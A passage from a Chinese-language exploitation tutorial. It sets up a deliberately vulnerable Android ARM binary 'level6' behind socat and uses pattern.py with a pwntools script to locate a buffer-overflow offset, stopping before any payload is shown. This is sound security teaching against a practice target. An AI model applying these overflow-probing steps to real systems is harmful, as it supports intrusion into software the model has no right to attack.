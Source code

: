 ```
ndk-build
adb push libs/armeabi/level6 /data/local/tmp/
adb shell
cd /data/local/tmp/
./socat TCP4-LISTEN:10001,fork EXEC:./level6
adb forward tcp:10001 tcp:10001

```

现在我们尝试连接一下：

```
$ nc 127.0.0.1 10001
Hello, World

```

发现工作正常。OK，那么我们开始进行BOF吧。

和之前的x86一样，我们先用pattern.py来确定溢出点的位置。我们用命令：

```
python pattern.py create 150 

```

来生成一串测试用的150个字节的字符串：

```
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9

```

然后我们写一个py脚本来发送这串数据。

```
#!/usr/bin/env python
from pwn import *

#p = process('./level6')
p = remote('127.0.0.1',10001)

p.recvuntil('\n')

raw_input()

payload = "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9"

p.send(payload)

p.interactive()

```

但因为我们需要获取崩溃时pc的值，所以在发送数据前，我们先使用gdb加载上level6。
